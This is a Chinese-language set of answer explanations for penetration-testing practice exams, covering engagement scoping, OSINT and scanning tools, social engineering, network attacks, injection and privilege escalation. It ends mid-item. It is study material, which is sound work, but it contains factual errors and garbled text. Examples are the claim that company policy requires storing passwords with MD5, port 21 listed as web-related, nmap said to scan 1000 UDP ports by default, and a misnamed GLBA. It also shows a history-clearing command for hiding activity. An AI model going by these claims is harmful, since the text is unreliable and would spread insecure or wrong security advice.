### 9. C. 在这种情况下，最好的方法是通过进行影响分析来确定客户对影响的容忍度。由于此漏洞扫描器可能会导致其系统崩溃，你需要了解客户的容忍水平以及系统宕机会对客户产生什么影响。你还需要确保客户意识到运行扫描器相关的所有风险。

### 10. A. 机密性、完整性和可用性被称为 `CIA 三元组`。它是一个旨在指导组织内部信息安全策略的模型。网络安全专业人员使用该模型来描述信息安全的目标。`CIA 三元组`具有网络安全计划寻求保护的信息的三个主要特征：
- 机密性旨在防止对信息或系统的未经授权的访问。
- 完整性旨在防止对信息或系统的未经授权的修改。
- 可用性旨在确保对信息和系统的合法使用保持可能。

### 11. B and E. 了解公司政策及其对影响的容忍度是规划任务时需要了解最重要的两个项目。其他项目也很重要，但在这种情况下，问题是哪两个是最重要的。网络安全专业人员广泛认为，漏洞管理是任何信息安全计划的关键组成部分，由于这个原因，许多组织在公司政策中强制要求漏洞扫描，即使这不是监管要求。被评估组织的风险和影响容忍度应用于定义评估的范围和执行规则。

### 12. D. 工作说明 (`SOW`) 定义了在任务期间将完成的工作。`SOW` 是一份定义测试目的、将进行哪些测试、将创建什么内容、测试完成的时间表、测试价格以及任何额外条款和条件的文档。

### 13. D. 工作说明 (`SOW`) 定义了在任务期间将完成的工作。`SOW` 是一份定义测试目的、将进行哪些测试、将创建什么内容、测试完成的时间表、测试价格以及任何额外条款和条件的文档。`MSA` 定义了组织在任何未来工作将使用的条款。`NDAs` 是执行双方之间机密关系的法律文件。`NDAs` 概述了涉及的双方、哪些信息应被视为机密、协议有效期多久、何时/如何披露是接受的，以及如何处理机密信息。测试人员给客户的详细发票仅仅是一张发票，而不是法律文件。

### 14. A. 公司政策（企业政策）是一套记录的指南，是在分析了所有可能影响公司目标、运营和计划的内部和外部因素后制定的。它由公司董事制定。公司政策规定了公司对已知和已知情势和情况的应对措施。它还决定了策略的制定和实施，并指导和限制公司官员在实现目标方面的计划、决策和行动。在这种情况下，公司政策应该非常详细和具体；因此，公司系统必须使用 `MD5` 哈希算法存储密码。

### 15. A. 证书锁定（Certificate pinning）将主机与 `X.509` 证书（或公钥）关联，然后使用该关联做出信任决策。你使用证书锁定有助于防止中间攻击。在公共网络上通信时，安全地发送和接收信息非常。

### 16. D. 红队评估通常比普通的渗透测试更有针对性。红队像攻击者一样，针对敏感数据或系统，目标是获取访问。基于目标或目标的评估通常旨在评估组织的整体安全性，而基于合性的评估旨在测试对特定法律的遵守情况。

### 17. A. 高级持续威胁 (`APT`) 是一种计算机网络攻击，个人或小组获得了网络的未经授权访问并在长时间不被发现。`APTs` 在对手列表中提供了最高级别的威胁。高级持续威胁攻击者使用的许多技术对渗透测试人员很有用，反之亦然。如果你的持久化技术没有被客户系统监控或检测到，结果应包含可以帮助他们设计规避这一潜在问题的信息。

### 18. B. 国家级威胁攻击者已被给予许可进行黑客攻击。他们为政府工作，破坏或损害目标政府、组织或个人，以获取宝贵的数据和情报，并可能制造具有国际意义的事件。脚本小子（script kiddie）是指使用更高级黑客编写的代码执行攻击的个人。黑客分子通常攻击目标是为了发表政治声明。组织化犯罪攻击者是目标为财务利益的网络犯罪分子集团。


### 19. 灰盒测试
灰盒测试是黑盒测试和白盒测试的结合。灰盒测试可能会向渗透人员提供一些环境信息，但不会提供完全的访问、凭据或配置细节。灰盒测试可以帮助渗透测试人员集中精力和时间，同时对恶意内部人员实际会遇到的情况提供精确视图。在黑盒渗透测试中，测试者对目标没有先验知识；在白盒测试中，测试者对目标有深入的了解。

### 20. 基于目标的评估
在这种场景下，客户要求测试人员进行基于目标的评估。基于目标的评估是出于特定原因进行的。示例包括验证新的安全设计、在应用程序或服务基础设施进入生产环境之前进行测试，或评估组织的安全性。合并前评估通常在一个组织与其他组织合并之前进行。合规性评估是为了确保组织符合政府法规或公司政策。供应链评估则涉及对组织供应商的进行测试。

### 21. 风险评估
风险评估通常涉及识别漏洞区域或潜在弱点，并为更强大的安全态势提供路线图。在这种场景下，客户完全理解渗透测试可能会对其网络造成中断，并且他们接受这些风险。

### 22. 风险响应
风险响应是控制已识别风险的过程。它是任何风险管理过程中的基础步骤。风险响应是一个规划和决策过程，客户决定如何处理每种风险。风险规避是消除可能对组织资产产生负影响的危害、活动和暴露。在这种场景下，客户通过移除门并筑起墙来使用风险规避的方法。

### 23. 高级持续威胁 (APT)
高级持续威胁 (APT) 是一种计算机网络攻击，个人或团体获得对网络的未经授权的访问并在很长时间内保持不被发现。APT 在对手分级列表中处于最高级别的威胁。威胁攻击者通常根据其能力进行评分。高级持续威胁攻击者使用的许多技术对渗透测试人员有用，反之亦然。如果你的持久化技术没有被客户系统监控或检测，发现结果应包含帮助他们设计方案以规避这一潜在问题的信息。

### 24. IP 黑名单与 IPS
在这种场景下，你计算机的 IP 地址被列入黑名单。黑名单是你客户防御实践的一部分。你的扫描被入侵防护系统（`IPS`）检测到，导致你计算机使用的 IP 地址被录入黑名单。黑名单通过维护应用程序列表和其他“已知”信息列表来工作。在这种情况下，你的 IP 地址被用于拒绝你访问网络。

### 25. 白盒测试
白盒测试有时称为`水晶盒`测试或`全知识`测试，允许测试人员看到网络内部的所有内容。这些测试是在对组成目标的主要技术、配置和设置有充分了解的情况下进行的。测试人员通常将拥有包括网络拓扑图、系统列表、IP 网络范围甚至系统凭据在内的信息。白盒测试通常更完整，因为测试人员可以访问范围内的每个系统、服务或其他目标。

### 26. 黑盒测试
黑盒测试有时称为`零知识`测试，旨在模拟外部攻击者会遇到的情况。测试人员不会获得对环境的访问权限或相关信息，相反，他们必须像攻击者一样收集信息、发现漏洞并穿过基础设施或系统。

### 27. 评估范围
大多数渗透测试任务的第一步是确定应该测试什么，这通常被称为评估的`scope`（范围）。评估范围决定了渗透测试人员将做什么以及将如何花费时间。因此，这对评估预算有重大影响。

### 28. 范围蔓延
当额外的项目被添加到评估范围中时，就会发生范围蔓延。测试人员的行为超出了初始评估协议的范围。

### 29. 黑客行动主义
黑客行动主义可能想要表达政治或社会观点。黑客行动主义通常不是为了钱而攻击。他们是聚集在一起并认为自己在为不公的黑客个人或团体。黑客行动主义使用与黑客相同的工具和战术。

### 30. 主服务协议 (MSA)
主服务协议（`MSA`）设定了两个组织之间的整体条款。许多组织还会创建一个 `MSA`，定义组织在未来工作中将使用的条款。这使得持续的合作和合同变得更容易处理。这可以帮助组织避免重新谈判的需求。当组织预计将合作一段时间或在创建支持协议时，`MSAs` 非常常见。

### 31. HIPPA
1996 年的《健康保险流通性与责任法案》（`HIPPA`）是一项美国法律，要求提供数据隐私和安全条款以保护医疗信息。由于网络攻击和勒索软件攻击针对健康保险公司和提供者导致健康数据泄露爆发，该法律最近变得更加重要。

### 32. GLBA
《格雷姆-里奇-布莱尔法案》（`GLBA`）也被称为 1999 年金融现代化法案。这是一项美国联邦法律，要求金融机构解释他们如何共享和保护客户的隐私信息。

### 33. 被动扫描
被动扫描是一种漏洞检测方法，依赖于从从目标计算机捕获的网络数据中获取信息。对于攻击者来说，被动扫描的主要优势是它不会留下引起用户或管理员注意的轨迹。对于管理员来说，主要优势是它不会在目标计算机上引起意外行为。被动扫描确实有局限性。它不像主动漏洞扫描那样详细，无法检测任何当前未发送流量的应用程序。

### 34. OSINT 与足迹探测
开源情报（`OSINT`）工具和技术是指通过公开可用信息来获取组织和技术细节，这些细节在渗透测试期间可能证明是很有用的。`OSINT` 是可以很容易收集的信息。`OSINT` 通常用于确定组织的足迹，其中包括组织拥有的所有系统、网络和其他技术的列表。

### 35. OSINT 工具
`Nessus` 是一种商业漏洞扫描工具，用于扫描各种设备，但它不是 `OSINT` 收集可用工具的一部分。有多种工具协助此类 `OSINT` 收集：

- `Censys`：一种基于 Web 的工具，探测整个互联网的 IP 地址，然后通过搜索引擎让渗透人员访问这些信息。
- `FOCA`：通过收集的存档进行组织指纹识别是一种开源工具，用于查找 Office 文档、PDF 和其他常见文件格式中的元数据。
- `Maltego`：一种商业产品，协助可视化从 `OSINT` 工作收集的数据。
- `nslookup`：工具有助于识别与组织相关的 IP 地址。
- `Recon-ng`：一个模块化的网络侦察框架，用于组织和管理 `OSINT` 工作。
- `Shodan`：一种特殊的搜索引擎，用于从公开来源发现易受攻击的物联网（`IoT`）设备。
- `theHarvester`：搜索搜索引擎和其他资源以查找组织的电子邮件地址、员工姓名和基础设施详情。


- `Whois` 工具从公共记录中收集有关域名所有权的信息。

### 36. B. 计算机应急响应小组 (`CERT`) 专注于安全违露和拒绝服务攻击事件，提供警报以及事件处理和规避指南。`CERT` 还开展持续的公众意识宣传活动，并从事旨在改进安全系统的研究。

### 37. A. 常见攻击模式枚举与分类 (`CAPEC`) 列表是一项旨在识别和记录攻击及攻击模式的资源。用户允许根据其机制或领域搜索攻击，然后通过各种属性和先决条件拆解每项攻击。`CAPEC` 还提供了解决方案和缓解措施，这在编写渗透测试报告时识别控制措施非常有帮助。

### 38. A. `Censys` 是一种基于 Web 的工具，用于探测给定的 IP 地址。它是一个搜索引擎，帮助渗透测试人员发现、监控和分析从互联网访问的设备。`Censys` 让研究人员找到特定的主机，并对使用的设备、网站、证书和加密算法部署情况创建总结报告。

### 39. A. `Aircrack-ng` 是一套用于评估无线网络安全的完整工具包。它专注于 Wi-Fi 安全的不同领域。
- **监控**：数据包捕获并将数据导出到文本文件中，供第三方工具进行进一步处理。
- **攻击**：通过数据包注入进行重放攻击、取消认证、伪造访问点等。
- **测试**：检查 Wi-Fi 网卡和驱动程序的能力。
- **破解**：等效加密 (`WEP`) 和 Wi-Fi 保护访问 2 – 预共享密钥 (`WPA PSK`)。

### 40. D. 国家漏洞数据库 (`NVD`) 是美国政府设立的存储库，基于使用安全内容自动化协议 (`SCAP`) 表示的漏洞管理数据进行标准。这些数据实现了漏洞管理、安全测量和合规性的自动化。`NVD` 包含了安全检查清单参考、与安全相关的软件缺陷、配置错误、产品名称和影响指标的数据库。

### 41. B. 在此场景中，客户要求你执行黑盒渗透测试。由于是黑盒测试，你可能会将大部分时间花在信息收集和漏洞识别阶段上。黑盒测试（有时称为零知识测试）旨在模拟外部攻击者会遇到的情况。测试人员没有获得环境的访问权限或信息，因此他们必须像攻击者一样收集信息、发现漏洞并穿过基础设施或系统。对于渗透测试人员来说，这可能是非常耗时的。

### 42. D. `Whois` 是一种广泛使用的互联网记录列表，用于识别域名的所有者以及如何与他们联系。互联网名称与数字机构 (`ICANN`) 监管域名注册和所有权。`Whois` 记录已被证明极其有用，并已发展成为维护域名注册和网站所有权过程完整性的基本资源。

### 43. B. 发现扫描识别运行在网络上的操作系统，将这些系统映射到 IP 地址，并枚举这些系统上的开放端口和服务。发现扫描为渗透测试人员提供了一种自动化的方法，用以识别网络上存在的主机并构建资产清单。

### 44. D. 凭据扫描需要对目标服务器的只读访问权限。客户应遵循最小权限原则，并限制给测试人员的访问权限。你应该考虑要求创建一个具有类似只读权限的特定“审计”账户。专门的“审计”账户具有优势，它出现在日志中，并立即被 IT 部门的所有人员识别为可能批准的活动。

### 45. D. 代码测试通常使用静态或动态代码分析，结合模糊测试和故障注入等测试方法。一旦代码进行了更改并部署，必须重新进行测试以确保更改没有产生任何新的安全问题。由于在此场景中你仅审查代码，你将进行静态代码分析。静态代码分析（也称为源码分析）通过审查应用程序的代码来完成。由于静态分析使用源代码，因此它可以被视为一种具有完全可见性的白盒测试。这可以允许测试人员发现其他测试可能无法发现的问题。

### 46. B. `dsquery.exe` 是一种命令行实用，用于查找活动目录 (Active Directory) 域中各种对象的信息。该工具默认存在于所有 Windows 服务器版本。`dsquery` 命令允许你查询 LDAP 目录以找到符合指定的对象。作为 `dsquery` 命令的一个属性，你需要指定你正在搜索的 AD 对象类型。在此场景中，你正在寻找过去 30 天未活动的用户账户，因此你将使用 `dsquery user -inactive < 周数 >`。

### 47. D. 参与的时间表以及何时可以进行测试，将对高峰期间对客户系统进行观察和测试产生最大影响。某些评估将安排在非关键时间段，以尽可能地减少任何潜在停机的影响，而另一些可能会安排在正常工作时间内，以帮助测试组织对攻击的反应。

### 48. C 和 E. 合规性扫描关注于应用于系统的配置设置或安全加固。当对单个计算系统执行合规性扫描时，它会生成一份报告，定义系统针对所选合规框架的加固程度。合规扫描并非旨在定位软件应用程序或操作系统的漏洞，而是旨在定位和评估系统加固配置中的漏洞。在此场景中，由于你在网络上看到的资产比网络架构中提供的多，你可以将此归因于网络访问或存储访问的限制。

### 49. C. 全量扫描将为你提供更有用的结果，因为它包含了更多的测试。场景中并没有要求测试人员避免被检测，因此不需要隐身扫描。但由于这是黑盒测试，最好在网络上运行全量扫描。

### 50. A. 凭据扫描是指扫描计算机在被扫描计算机上拥有账户，允许扫描器进行更彻底的检查，以寻找从网络上可能看到的问题。凭据扫描在企业漏洞管理计划中被广泛使用，是执行渗透测试时非常有用的工具。凭据扫描可能会访问操作系统、数据库和应用程序。凭据扫描通常从目标服务器检索信息，而不对服务器本身进行任何更改。


### 52. C. 在此场景下，由于端口 23 是开放的，这表明你所在的服务器是一个 Telnet 服务器。Telnet 是一种用户命令，也是一种用于访问远程计算机的底层 TCP/IP 协议。通过 Telnet，管理员或其他用户可以远程访问他人的计算机。Telnet 使用命令行界面。Telnet 服务器与客户端之间传输的信息是以未加密的形式发送。这意味着任何身份验证信息也可能被捕获。

### 53. B. 在此场景下，渗透测试人员发现的所有端口都与 Web 有关。因此，该问题的答案是敏感信息可能会在 Web 服务器上泄露，因为那些端口是在漏洞扫描期间指示的端口。

* 端口 21 是 `TCP/FTP`，或控制端口。
* 端口 80 是 `TCP/HTTP`，用于传输网页。
* 端口 443 是 `TCP/HTTPS`，即运行在 `TLS/SSL` 之上的 HTTP 协议，用于加密传输。

### 54. D. 误报（False positive）是指系统错误地接受了一个生物识别样本为匹配项。生物识别传感器有时会因为多种原因而出错。识别过程是将提交给系统的生物识别特征（如指纹或虹膜扫描）与数据库中的所有记录进行对比以匹配。这被称为 `one-to-many`（一对多）搜索。活体生物特征会随年龄、气候或手指可能的受伤而变化。供应商将这些阈值设置称为假接受率（`FARs`）和假拒绝率（`FRRs`）。

### 55. B. 误报是某些评估过程中的错误，即受测试的条件被错误地认为已检测。扫描器可能没有足够的权限访问目标系统来确认漏洞，或者其生成错误漏洞报告的插件中可能存在错误。当扫描器报告一个不存在的漏洞时，这被称为 `false positive error`（误报错误）。

### 56. A. 通用漏洞评分系统（`CVSS`）是一个用于评估安全漏洞严重程度的框架。`CVSS` 使用算法来确定三个严重性评分：基本（Base）、临时（Temporal）和环境（Environmental）。分值为数值，范围从 0.0 到 10.0 不等。最高的是 10.0。根据 `CVSS`，0.0 分获得无 评级，0.1–3.9 分获得低（Low）评级，4.0-6.9 分获得中（Medium）评级，7.0–8.9 分获得高（High）评级，9.0–10.0 分获得严重（Critical）评级。在此场景下，分为 3.6，属于低类别。

### 57. A. 字典攻击通过详尽输入字典中的每个单词作为密码来破解受密码保护的计算机或服务器的方法。字典攻击之所以有效是因为许多计算机用户使用普通单词作为密码。字典攻击依赖于预建的单词字典。在情况下，渗透测试人员可以根据知识为渗透测试向字典文件添加额外的特定字典条目；这在执行字典攻击时会有利。在此场景下，渗透测试人员利用社交媒体寻找可能对字典攻击有益的额外关键词。

### 58. C. 在此场景下，由于客户员工使用字典单词作为密码，击败这种情况的最佳方法是扩展密码长度并添加特殊字符。密码中使用的特殊字符是标准美国键盘上的标点符号选择。这些包括 `!"#$%&’()\*+,-./:;<=>?@\[\\\]^\_’{|}~`。这将使得攻击者更难破解客户的系统。

### 59. D. 当目标平台位于不同的架构时，会交叉编译代码。测试人员可能无法访问目标机器上的编译器，或者可能需要从主工作站为漏洞程序编译代码，而主工作站与目标架构不同。

### 60. A and B. 彩虹表（Rainbow tables）提供了一种通过查找而非尝试暴力破解来攻击哈希密码的强大方法。彩虹表是针对一组密码要求的所有可能密码的预计算列表，然后根据已知的哈希算法（如 `MD5`）进行哈希。彩虹表用于反向攻击哈希密码。彩虹表通常是离线攻击。它比任何其他形式的攻击消耗的计算周期都少。暴力破解（Brute-force attack）尝试通过试错的方法来破解密码或用户名，攻击者提交许多密码或短语，以获得最终猜对密码的机会。

### 61. A. 彩虹表是针对一组密码规则的所有可能密码的预计算哈希值列表。彩虹表工具将哈希与之前计算过的哈希进行对比，后者匹配已知的密码值。这是通过相当快的数据库查找完成的，从而能够“破解”哈希密码，尽管哈希值是不可逆的。密码文件是哈希值的列表。

### 62. A. 物联网（`IoT`）指的是连接到互联网的物理产品和设备网络。制造商和开发者希望降低成本以增加利润。因此，安全性通常不是产品或设备的关键特性。所以，与网络上的任何其他设备一样，`IoT` 设备可能存在安全漏洞，并可能受到基于网络的攻击。

### 63. D. `SNMP` 暴力攻击通过 `SNMP` 查询攻击 IP 地址以确定 `SNMP` 只读和读写社区字符串（或密码）。它通过尝试所有可能的密码来实现这一点。由 `SNMP` 创建的主信息库（`MIB`）数据库包含了网络上每个设备的重要信息。如果测试人员能够破解 `SNMP` 密码，他们可能就可以控制每个网络设备。这将允许配置配置更改或使设备下线。

### 64. C. 在此场景下，唯一不属于制造领域的是实时操作系统（`RTOS`）。`RTOS` 是任何旨在服务实时应用的操作系统，这些应用处理数据时通常没有延迟。工业控制系统（`ICS`）是一个术语，用于描述不同类型的控制系统和相关仪表，包括用于操作和/或自动化工业过程的设备、系统、网络和控制。数据采集与监控控制（`SCADA`）系统用于监控和控制广泛行业的生产过程，包括制造、水处理、采矿、石油炼化、运输和电力分配。可编程逻辑控制器（`PLC`）是一种监控输入输出并为自动化过程或机器做出逻辑决策的工业固态计算机。`PLC` 是一种适用于控制制造流水线、机器人设备或任何需要高可靠性控制以及易于编程和故障诊断诊断活动的工业数字计算机。

### 65. B. 审讯（也称为 `questioning`）是为了获取有用信息而对个人进行的询问。审讯可能涉及广泛的技术，范围从与个人建立联系到酷刑。通过这种技术，恐惧可以被用作动力。但这种技术通常不被渗透测试人员使用。


## 66. A. 社会工程针对的是人而非计算机，它依赖于个人或群体违反安全程序、策略和规则。社会工程可以通过面对面、电话、短信或电子邮件进行。在这种场景中，攻击者正在使用社会工程中的“权威性”原则。他们希望财务部的 Sue 在收到一封来自公司总裁的邮件后不会产生任何疑问并进行转账。权威性基于这样一种信念：人们倾向于服从权威人物，即使他们被要求执行令人反感的行为。

## 67. A. 冒充涉及伪装成他人以获得对设施或资源的访问权限。这可能简单如声称是工作人员，也可能复杂如穿着制服并出示假公司证。在这种场景中，攻击者拨打了帮助台技术人员的电话，冒充员工。

## 68. C. 社会工程工具包 (`SET`) 提供了一个自动化社会工程过程的框架，包括发送鱼叉式网络钓鱼邮件、托管虚假网站和收集凭据。社会工程在许多攻击中都起着重要作用。`SET` 是一个基于菜单的社会工程攻击系统。在这种场景中，渗透测试人员正在尝试鱼叉式网络钓鱼攻击。

## 69. C. 语音钓鱼 (vishing) 是通过电话系统进行的社会工程。网络钓鱼攻击针对密码、用户名或信用卡信息等敏感信息。语音钓鱼的工作原理与钓鱼类似，但使用语音技术执行。语音钓鱼攻击可以通过语音邮件、IP 语音电话 (`VoIP`) 或固定电话或手机电话进行。在这种场景中，由于总裁正在接听电话，这是一次语音钓鱼攻击。

## 70. B. 本地链路多播名称解析 (`LLMNR`) 和 NetBIOS 名称服务 (`NetBIOS-NS`) 毒可以为渗透测试人员提供获取中间位置的能力，从而扩大其获取访问和信息的能力。Windows 网络中最常被攻击的服务之一是 `NetBIOS`。`NetBIOS` 通常用于文件共享。

## 71. D. `ARP 欺骗` 是一种技术，攻击者向局域网发送（伪造的）地址解析协议 (`ARP`) 消息。通常，目标是将攻击者的媒体访问控制 (`MAC`) 地址与另一个主机（如默认网关）的 IP 地址关联，导致任何发往该 IP 地址的流量都被发送给攻击者。`ARP 欺骗` 可能允许攻击者拦截网络上的数据帧、修改流量或停止所有流量。

## 72. A. 当双方之间的通信被外部实体拦截时，就会发生中间人攻击。中间人攻击是一种常见的网络安全攻击，它允许攻击者窃听两个目标之间的通信。该攻击发生在两个合规通信的主机之间，允许攻击者“倾听”对话。

## 73. A. 在这种场景中，你需要接收客户端无线设备所使用的频段和频率才能进行无线渗透测试。无线设备可能在许多频段和频率上运行，但知道确切的频段和频率将允许渗透测试人员按照要求进行无线渗透测试。

## 74. C. 降级攻击是一种攻击形式，测试人员以此强制网络通道切换到安全性较低或未受保护的数据传输标准。降低协议是中间人类型攻击的组成部分之一，用于拦截加密流量。降级攻击通过导致客户端和服务器使用安全性较低的协议来工作。在这种场景中，由于你正试图捕获所有未加密的 Web 流量，你将希望实施 `HTTP` 降级攻击。

## 75. C. 蓝牙劫持 (Bluejacking) 是攻击者通过蓝牙设备发送未经请求的消息。蓝牙劫持是一种允许个人向一定半径内的蓝牙功能设备发送匿名消息的黑客方法。首先，黑客使用带有蓝牙功能的设备扫描周围环境，寻找其他设备。然后，黑客向检测到的设备发送未经请求的消息。

## 76. B. 在这种场景中，输入了一个命令，攻击者正试图访问 `/etc` 目录下的密码文件。`命令注入` 是一种目标是通过受漏洞影响的应用程序在主机操作系统上执行任意命令的攻击。当应用程序将不安全的用户提供数据（表单、cookie、`HTTP` 请求头等）传递给系统 shell 时，就可能发生命令注入 攻击。

## 77. B. 跨站脚本 (`XSS`) 攻击发生在 Web 应用程序允许攻击者执行 HTML 注入，并将他们自己的 HTML 代码插入网页中的情况。在这种场景中，攻击者正试图使用网络浏览器通过 `JavaScript` 代码操纵 `HTML iframe`。

## 78. C. 在尝试获取主机、系统或应用程序的访问权限时，首要步骤之一是枚举用户名。一旦猜出用户名，就可以尝试基于密码的定向攻击。`RID 循环` 攻击试图通过空会（null sessions）枚举用户账户。如果测试人员指定了密码文件，它将在完成枚举后自动尝试对用户账户进行破解。因此，在这种场景中，尝试 `RID 循环` 将是测试人员应该尝试的下一步。

## 79. E 和 F. 鉴于这种场景，客户将希望对 `SQL` 语句使用黑名单和白名单验证。`SQL 注入` 是一种常见的攻击路径，使用恶意的 `SQL` 代码进行后端数据库操作，以访问非预期显示的信息。`SQL 注入` 是最常见的 Web 攻击技术之一。黑名单验证将外部输入与已知的恶意输入集进行对比。白名单验证则将外部输入与已批准的输入集进行对比。

## 80. B. 在这种场景中，`..` 操作符是攻击者正试图进行目录遍历攻击的明显迹。这种攻击试图跳出 Web 服务器的根目录并访问 `/etc/passwd` 文件。目录遍历攻击是一种 `HTTP` 攻击，允许攻击者访问 Web 服务器根目录之外的受限目录并执行命令。

## 第 7 章：模拟考试 2

1. A `TCP SYN 洪水攻击`（也称为 `SYN 洪水`）是一种拒绝服务 (`DoS`) 攻击形式，测试人员向目标系统发送一系列 `SYN` 请求，试图消耗足够的服务器资源，以导致系统对真实流量无响应。这利用了正常 `TCP` 三次握手的一部分，并消耗目标服务器资源使其失效。

2. 存储型跨站脚本 (`XSS`) 是最危险的跨站脚本。允许用户存储数据的 Web 应用程序极可能受到此类攻击。存储型 `XSS` 发生在 Web 应用程序收集了可能的恶意用户输入，并将其存储在数据存储中供以后使用的情况下。

3. B HTML 表单可以在 `<form>` 元素中使用 `method="POST"` 或 `method="GET"`（默认）。指定的方法决定了表单数据如何提交到服务器。使用 `GET` 时，参数保留在浏览器历史中，因为它们变成了 URL 的一部分。使用 `POST` 时，参数不会保存在浏览器历史中。与 `POST` 相比，`GET` 的安全性较低。


### 4. 竞态条件 (Race Conditions)
当代码段的安全性取决于系统内部事件发生的顺序时，就会发生竞态条件。检查时间到使用时间（TOCTTOU）问题是一种竞态条件，发生在程序在请求资源之前过早地检查访问权限时。

### 5. HTTP Cookies
网站使用 `HTTP` cookies 来维持长时间的会话。如果测试人员能够获取用户会话 cookie 的副本，他们就可以该 cookie 伪装用户的浏览器并劫持已认证的会话。获取用于验证用户 Web 会话会话 cookie 的攻击者可以劫持该会话并接管用户账户。用于身份验证的 cookie 应该始终安全地创建，并仅通过安全的加密通信通道进行传输。

### 6. 社会工程 (Social Engineering)
社会工程针对的是人而非计算机，依赖于个人或群体违反安全程序、策略和规则。社会工程可以通过面对面、电话、短信或电子邮件进行。在这种场景中，攻击者使用了社会工程中的权威原则。权威原则基于一种信念：人们倾向于服从权威人物，即使被要求执行反感的行为。

### 7. PTY 模块与 su
`pty` 模块允许渗透人员创建一个伪终端（pseudoterminal），可以欺骗 `su` 等命令，使其认为它们正在正确的终端中执行。要升级 shell，只需运行所示命令。`su` 是一个 Unix 命令，意为替换用户（substitute user）。计算机用户用它以另一个用户账户的权限执行命令。执行时，它会调用一个 shell，但不会更改当前的工作目录或用户环境。

### 8. 权限提升 (Privilege Escalation)
权限提升攻击通常分为两大主要类型：垂直提升和水平提升。垂直提升攻击侧重于让测试人员获得更高的权限。水平提升攻击则侧向移动到具有相同权限的其他账户或服务。未引号的服务路径（unquoted service path）是 Windows 中的一种漏洞。当服务启动时，Windows 会尝试定位它。通常情况下，服务是用引号良好定义的。但有时，服务路径可能包含空格或未被引号包围。测试人员可以使用未引号的服务路径来提升权限。

### 9. 键盘记录器 (Keyloggers)
键盘记录器是软件和硬件，可以作为持续利用过程中的有用部分。捕获击键可以洞察用户采取的操作，并可以作为凭据和其他机密信息的价值来源。键盘记录器是一种跟踪或记录在键盘上按下的键的软件。这通常出于恶意意图，旨在收集账户信息、信用卡号、用户名、密码和其他私有数据。

### 10. 门克隆 (Badge Cloning)
通过卡克隆，测试人员可以克隆员工的卡以进入设施。最常用的技术之一是克隆射频识别（RFID）标签。鉴于这种尝试在工作时间和非工作时间都获取访问权限的场景，卡克隆是最佳选择。

### 11. 绕过锁 (Lock Bypass)
绕过锁简单来说就是：在不撬锁的情况下绕过锁。在这种场景中，测试人员正尝试使用门下方的工具（under-the-door tool）进行物理安全评估，该工具从门下方通过并从内部拉开门把。

### 12. 尾随 (Piggybacking)
尾随攻击依赖于跟随员工进入安全门或其他入口。高安全性组织可能会使用防撞门（mantraps）防止尾随和尾闯（tailgating）。实施恰当的防撞门每次只允许一个人通过，且该人员必须解锁两扇门，而一次只能有一扇门被解锁并打开。

### 13. Chkconfig
`chkconfig` 是一个用于管理服务将在哪些运行级别（run levels）运行的工具。`chkconfig` 可用于查看或更改服务的运行级别。使用 `chkconfig --del <servicename>` 将将指定的服务设置为不在当前运行级别下运行，并移除其持久化。

### 14. Bash 历史 (Bash History)
`bash` 历史记录了测试人员在 Linux 命令行上执行的所有命令。这允许测试人员通过使用向上和向下箭头键滚动命令历史文件，轻松地运行之前执行过的命令。从 Linux 终端中删除命令行历史的主要原因是防止另一个用户使用测试人员之前的命令。要删除或清除 bash 历史中的所有条目，请使用带有 `-c` 的 `history` 命令：
```bash
$ history -c
```

### 15. PsExec
`PsExec` 是一个命令行工具，允许你在远程系统上执行进程，并将控制台应用程序的输出重定向到本地系统，以便这些应用程序看起来在本地运行。它是一个轻量的 `Telnet` 替代品，允许你在其他系统上执行进程。

### 16. Windows 管理规范 (WMI)
Windows 管理规范型 (`WMI`) 允许远程管理和数据收集，并安装在所有 Windows 系统上，使其成为攻击者和渗透人员非常有吸引的目标。`WMI` 为用户提供有关本地或远程计算机系统状态的信息。它还支持以下操作：
* 安全设置配置
* 系统属性
* 授权用户和用户组的权限
* 驱动器标签
* 在特定时间运行进程的调度
* 备份对象存储

`WMI` 还可以远程执行命令、文件传输以及从文件和注册表（Registry）中收集数据。

### 17. Nmap 端口扫描
使用 `nmap` 的基本功能非常简单。对系统进行端口扫描只需要安装 `nmap` 并提供目标系统的主机名或 IP 地址。默认情况下，`nmap` 会扫描 `TCP` 和 `UDP` 的最常用的 1000 个端口。然而，`TCP` 和 `UDP` 服务可用的完整端口范围是 1–65,535。在这种场景中，由于你没有指定扫描多少个端口，它将扫描默认的 1000 个。

### 18. Nmap 和 Telnet
Network Mapper (`nmap`) 用于通过发送数据包并分析响应来发现网络上的主机和服务。`nmap` 会识别客户端系统上运行了哪些设备、发现主机和服务、找到开放的端口并检测安全风险。在这种场景中，客户端没有禁用 Telnet，因为端口 23 仍然开放。Telnet 是一种客户端-服务器协议，基于可靠的面向连接的传输层。通常，该协议使用端口 23 建立到传输控制协议 (`TCP`) 的连接，其中 Telnet 服务器应用程序 (`telnetd`) 处于监听状态。

### 19. Hping
Hping 是一个允许测试人员生成网络流量的命令行工具。`Hping` 流行是因为允许你创建自定义包。在这种场景中，你将向 `TCP` 端口 80 发送 `TCP` SYN。`-S` 开关请求 hping 发送 SYN 流量，`-V` 开关是详细模式，`-p` 开关指示端口。

### 20. Nmap 功能
`Nmap` 是最常用的命令行漏洞扫描器，是一个免费的开源工具。它提供了广泛的功能，包括旨在绕过防火墙和其他网络保护设备的多种扫描模式。要扫描端口，你将需要使用 `-p <端口范围>`。此选项指定你想要扫描的端口并覆盖了默认扫描。单个端口号或范围都是允许的。范围用连字符分隔（例如 1–1023）。范围的起始和/结束值可以省略，导致 `nmap` 分别使用 1 和 65535。因此，你可以指定 `-p-` 来扫描从 1 到 65535 的端口。


### 21. A 和 F.
`nmap` 最广为人知的特性之一是通过 TCP/IP 栈指纹进行远程操作系统检测。`nmap` 向远程主机发送一系列 TCP 和 UDP 数据包并检查其响应。
- `-iL <inputfilename>`：这是从主机/网络列表读取输入。
- `-sV`：此选项会探测开放端口以确定服务/版本信息。

### 22. D. 被动侦察也称为开源情报（OSINT）。被动侦察的理念是仅使用公开的资源来收集有关目标的信息。`Shodan` 是一个特殊的搜索引擎，通过使用各种过滤器发现连接到互联网的特定类型的计算机和设备。`Peach` 是一个模糊测试工具，`OpenVAS` 执行网络漏洞扫描，而 `CeWL` 是一个自定义字典生成器，它通过搜索网站查找可能用于密码破解攻击的关键词。

### 23. D 和 F.
